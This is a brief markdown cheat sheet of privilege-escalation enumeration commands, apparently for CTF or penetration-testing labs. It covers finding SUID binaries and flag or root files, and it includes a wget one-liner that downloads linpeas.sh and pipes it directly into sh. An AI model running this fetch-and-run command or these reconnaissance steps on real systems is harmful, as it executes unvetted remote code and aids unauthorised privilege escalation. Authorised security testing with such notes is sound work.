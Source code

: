 # Enumeration

## Links

- [PEASS-ng](https://github.com/carlospolop/PEASS-ng)
- [GTFOBins](https://gtfobins.github.io)

## Find files

```sh
find / -type f -iname "root*" 2>/dev/null
```

## Find SUID binaries

```sh
find / -perm +6000 2>/dev/null | grep '/bin/'
```

## Find Group files

```sh
find / -type f -group GROUP 2>/dev/null
```

## Windows search file

```sh
Get-ChildItem -Path C:\ -Filter flag* -Recurse -ErrorAction SilentlyContinue -Force
```

## Linpeas download

```sh
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

## Linpeas download & run

```sh
wget -qO- https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
